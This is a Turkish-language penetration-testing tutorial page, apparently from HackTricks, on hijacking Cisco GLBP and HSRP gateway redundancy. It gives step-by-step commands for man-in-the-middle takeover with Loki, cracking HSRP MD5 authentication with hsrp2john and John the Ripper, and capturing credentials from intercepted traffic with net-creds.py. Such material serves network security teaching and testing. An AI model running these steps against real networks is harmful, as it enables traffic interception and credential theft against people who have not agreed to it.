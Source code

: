 # GLBP & HSRP Saldırıları

{{#include ../../banners/hacktricks-training.md}}


## FHRP Kaçırma Genel Bakış

### FHRP Hakkında Bilgiler

FHRP, birden fazla yönlendiriciyi tek bir sanal birimde birleştirerek ağ dayanıklılığı sağlamak için tasarlanmıştır ve böylece yük dağılımını ve hata toleransını artırır. Cisco Systems, bu pakette GLBP ve HSRP gibi öne çıkan protokoller tanıtmıştır.

### GLBP Protokolü Hakkında Bilgiler

Cisco'nun yarattığı GLBP, TCP/IP yığınında çalışır ve iletişim için 3222 numaralı portta UDP kullanır. GLBP grubundaki yönlendiriciler, 3 saniyelik aralıklarla "hello" paketleri değiş tokuş eder. Bir yönlendirici bu paketleri 10 saniye boyunca göndermezse, çevrimdışı olduğu varsayılır. Ancak, bu zamanlayıcılar sabit değildir ve değiştirilebilir.

### GLBP İşlemleri ve Yük Dağılımı

GLBP, tek bir sanal IP ile birden fazla sanal MAC adresi kullanarak yönlendiriciler arasında yük dağılımını sağlama yeteneği ile öne çıkar. Bir GLBP grubunda, her yönlendirici paket iletimine katılır. HSRP/VRRP'nin aksine, GLBP, çeşitli mekanizmalar aracılığıyla gerçek yük dengelemesi sunar:

- **Host-Dependent Load Balancing:** Bir hosta tutarlı AVF MAC adresi atamasını sürdürür, bu da kararlı NAT yapılandırmaları için gereklidir.
- **Round-Robin Load Balancing:** Varsayılan yaklaşım, istek yapan hostlar arasında AVF MAC adresi atamasını sırayla yapar.
- **Weighted Round-Robin Load Balancing:** Yükü önceden tanımlanmış "Ağırlık" metriklerine göre dağıtır.

### GLBP'deki Ana Bileşenler ve Terimler

- **AVG (Aktif Sanal Geçit):** MAC adreslerini eş yönlendiricilere tahsis etmekten sorumlu ana yönlendirici.
- **AVF (Aktif Sanal İletici):** Ağ trafiğini yönetmekle görevlendirilmiş bir yönlendirici.
- **GLBP Önceliği:** AVG'yi belirleyen bir metrik, varsayılan olarak 100 ile başlar ve 1 ile 255 arasında değişir.
- **GLBP Ağırlığı:** Bir yönlendiricinin mevcut yükünü yansıtır, manuel olarak veya Nesne Takibi aracılığıyla ayarlanabilir.
- **GLBP Sanal IP Adresi:** Tüm bağlı cihazlar için ağın varsayılan geçidi olarak hizmet eder.

GLBP, etkileşimler için 224.0.0.102 rezerve edilmiş çoklu yayın adresini ve UDP 3222 portunu kullanır. Yönlendiriciler, 3 saniyelik aralıklarla "hello" paketleri gönderir ve 10 saniyelik bir süre içinde bir paket kaçırılırsa, çalışmıyor olarak kabul edilir.

### GLBP Saldırı Mekanizması

Bir saldırgan, en yüksek öncelik değeri (255) ile bir GLBP paketi göndererek ana yönlendirici haline gelebilir. Bu, trafiğin kesilmesine veya yönlendirilmesine olanak tanıyan DoS veya MITM saldırılarına yol açabilir.

### Loki ile GLBP Saldırısı Gerçekleştirme

[Loki](https://github.com/raizo62/loki_on_kali), öncelik ve ağırlığı 255 olarak ayarlanmış bir paket enjekte ederek GLBP saldırısı gerçekleştirebilir. Saldırı öncesi adımlar, sanal IP adresi, kimlik doğrulama varlığı ve yönlendirici öncelik değerleri gibi bilgilerin toplanmasını içerir; bu işlem için Wireshark gibi araçlar kullanılabilir.

Saldırı Adımları:

1. Promiscuous moduna geçin ve IP yönlendirmesini etkinleştirin.
2. Hedef yönlendiriciyi belirleyin ve IP'sini alın.
3. Gereksiz bir ARP oluşturun.
4. AVG'yi taklit eden kötü niyetli bir GLBP paketi enjekte edin.
5. Saldırganın ağ arayüzüne, GLBP sanal IP'sini yansıtan bir ikincil IP adresi atayın.
6. Tam trafik görünürlüğü için SNAT uygulayın.
7. Orijinal AVG yönlendiricisi üzerinden internet erişiminin devamını sağlamak için yönlendirmeyi ayarlayın.

Bu adımları izleyerek, saldırgan kendisini "orta adam" olarak konumlandırır ve ağ trafiğini, şifrelenmemiş veya hassas verileri dahil olmak üzere, kesip analiz etme yeteneğine sahip olur.

Demonstrasyon için gerekli komut parçacıkları:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Ağ trafiğini izlemek ve kesmek, net-creds.py veya benzeri araçlar kullanılarak, ele geçirilmiş ağ üzerinden akan verileri yakalamak ve analiz etmek için yapılabilir.

### HSRP Kaçırma Pasif Açıklaması ve Komut Detayları

#### HSRP (Hot Standby Router/Redundancy Protocol) Genel Bakış

HSRP, ağ geçidi yedekliliği için tasarlanmış Cisco'ya ait bir protokoldür. Birden fazla fiziksel yönlendiricinin tek bir mantıksal birim olarak yapılandırılmasına ve paylaşılan bir IP adresi ile yönetilmesine olanak tanır. Bu mantıksal birim, trafiği yönlendirmekten sorumlu birincil yönlendirici tarafından yönetilir. Yük dengelemesi için öncelik ve ağırlık gibi metrikler kullanan GLBP'nin aksine, HSRP, trafik yönetimi için tek bir aktif yönlendiriciye dayanır.

#### HSRP'deki Roller ve Terminoloji

- **HSRP Aktif Yönlendirici**: Trafik akışını yöneten geçit olarak hareket eden cihaz.
- **HSRP Bekleme Yönlendirici**: Aktif yönlendirici arızalandığında devralmaya hazır yedek yönlendirici.
- **HSRP Grubu**: Tek bir dayanıklı sanal yönlendirici oluşturmak için işbirliği yapan yönlendiriciler seti.
- **HSRP MAC Adresi**: HSRP kurulumundaki mantıksal yönlendiriciye atanan sanal MAC adresi.
- **HSRP Sanal IP Adresi**: HSRP grubunun sanal IP adresi, bağlı cihazlar için varsayılan geçit olarak işlev görür.

#### HSRP Sürümleri

HSRP, grup kapasitesi, çoklu IP kullanımı ve sanal MAC adresi yapısı açısından farklılık gösteren iki sürümde gelir: HSRPv1 ve HSRPv2. Protokol, hizmet bilgisi alışverişi için belirli çoklu IP adreslerini kullanır ve her 3 saniyede bir Hello paketleri gönderir. 10 saniyelik bir süre içinde paket alınmazsa, bir yönlendirici pasif kabul edilir.

#### HSRP Saldırı Mekanizması

HSRP saldırıları, maksimum öncelik değeri enjekte ederek Aktif Yönlendirici'nin rolünü zorla devralmayı içerir. Bu, Man-In-The-Middle (MITM) saldırısına yol açabilir. Saldırı öncesi temel adımlar, HSRP kurulumuna dair verilerin toplanmasını içerir; bu, trafik analizi için Wireshark kullanılarak yapılabilir.

#### HSRP Kimlik Doğrulamasını Aşma Adımları

1. HSRP verilerini içeren ağ trafiğini .pcap dosyası olarak kaydedin.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. .pcap dosyasından MD5 hash'lerini hsrp2john.py kullanarak çıkarın.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. MD5 hash'lerini John the Ripper kullanarak kırın.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki ile HSRP Enjeksiyonu Gerçekleştirme**

1. HSRP reklamlarını tanımlamak için Loki'yi başlatın.
2. Ağ arayüzünü promiscuous moda ayarlayın ve IP yönlendirmesini etkinleştirin.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki'yi belirli yönlendiriciye hedef almak için kullanın, kırılmış HSRP şifresini girin ve Aktif Yönlendirici'yi taklit etmek için gerekli yapılandırmaları yapın.
4. Aktif Yönlendirici rolünü kazandıktan sonra, ağ arayüzünüzü ve IP tablolarınızı meşru trafiği kesmek için yapılandırın.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Trafiği eski Aktif Yönlendirici üzerinden yönlendirmek için yönlendirme tablosunu değiştirin.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Kesilen trafikten kimlik bilgilerini yakalamak için net-creds.py veya benzeri bir yardımcı program kullanın.
```shell
sudo python2 net-creds.py -i eth0
```

Bu adımları uygulamak, saldırganı trafiği kesip manipüle etme pozisyonuna getirir; bu, GLBP kaçırma prosedürüyle benzerdir. Bu, HSRP gibi yedeklilik protokollerindeki zayıflığı ve sağlam güvenlik önlemlerine olan ihtiyacı vurgular.

## Referanslar

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}
